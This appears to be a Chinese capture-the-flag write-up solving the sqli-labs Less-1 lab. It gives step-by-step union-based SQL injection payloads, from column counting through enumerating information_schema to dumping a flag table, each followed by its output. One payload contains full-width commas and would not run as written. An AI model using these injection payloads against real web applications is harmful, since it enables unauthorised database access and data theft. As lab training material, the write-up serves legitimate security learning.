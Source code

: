 题目：sqli-labs less1

根据提示`Please input the ID as parameter with numeric value`
在url地址后加入`?id=1`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:Dumb
Your Password:Dumb
```
检查是否为数字型注入，在url地址后加入`?id=2-1`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:Angelina
Your Password:I-kill-you
```
输出发生改变，可以看出非数字型注入
现在检查是否为字符型注入，在url地址后加入`?id=1a`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:Dumb
Your Password:Dumb
```
输出与加入`?id=1`相比没有变化，因此可以看出为字符型注入
接下来测试后端代码运用到的列数，在url后分别加入`?id=1 order by 3 --+`与`?id=1 order by 4 --+`，访问后，输出分别如下
```
Welcome    Dhakkan
Your Login name:Dumb
Your Password:Dumb
```
```
Welcome    Dhakkan
Unknown column '4' in 'order clause'
```
因此可以知道列数为3，接下来使用union类型注入，在url后加入`?id=0' union select '123'，'1234'，'12345' --+`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:1234
Your Password:12345
```
因此可知后两列的输出将被使用，现在查询有哪些数据库，在url后加入`?id=0' union select '123',(SELECT Group_concat(schema_name) FROM information_schema.schemata),'12345' --+`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:ctftraining,information_schema,mysql,performance_schema,security,test
Your Password:12345
```
查看ctftraining库中存在哪些表，在url后加入`?id=0' union select '123',(SELECT Group_concat(table_name) FROM information_schema.tables where table_schema='ctftraining'),'12345' --+`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:flag,news,users
Your Password:12345
```
查看flag表中有哪些字段，在url后加入`?id=0' union select '123',(SELECT Group_concat(column_name) FROM information_schema.columns where table_schema='ctftraining' and table_name='flag'),'12345' --+`，访问后，输出如下
```
Welcome    Dhakkan
Your Login name:flag
Your Password:12345
```
最后查询flag表，在url后加入`?id=0' union select '123',(SELECT Group_concat(column_name) FROM information_schema.columns where table_schema='ctftraining' and table_name='flag'),(SELECT Group_concat(flag) FROM ctftraining.flag) --+`，访问后，得到`flag`
```
Welcome    Dhakkan
Your Login name:flag
Your Password:flag{062c46c6-b29f-4f59-89f5-2c10de61fe75}
```
